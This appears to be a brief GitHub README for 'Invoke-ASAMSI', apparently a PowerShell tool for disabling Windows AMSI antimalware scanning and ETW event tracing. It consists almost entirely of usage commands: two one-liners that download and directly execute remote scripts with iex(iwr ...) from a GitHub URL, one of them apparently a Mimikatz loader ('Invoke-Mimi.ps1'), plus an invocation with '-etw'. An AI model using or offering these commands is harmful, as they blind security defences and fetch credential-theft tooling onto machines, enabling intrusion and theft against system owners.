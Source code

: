 # Invoke-ASAMSI


```iex (iwr -UseBasicParsing https://raw.githubusercontent.com/ASP4RUX/Invoke-AMSI/refs/heads/main/Invoke-ASAMSI.ps1)

```Invoke-ASAMSI -etw -v

```iex (iwr -UseBasicParsing https://raw.githubusercontent.com/ASP4RUX/Invoke-AMSI/refs/heads/main/Invoke-Mimi.ps1)
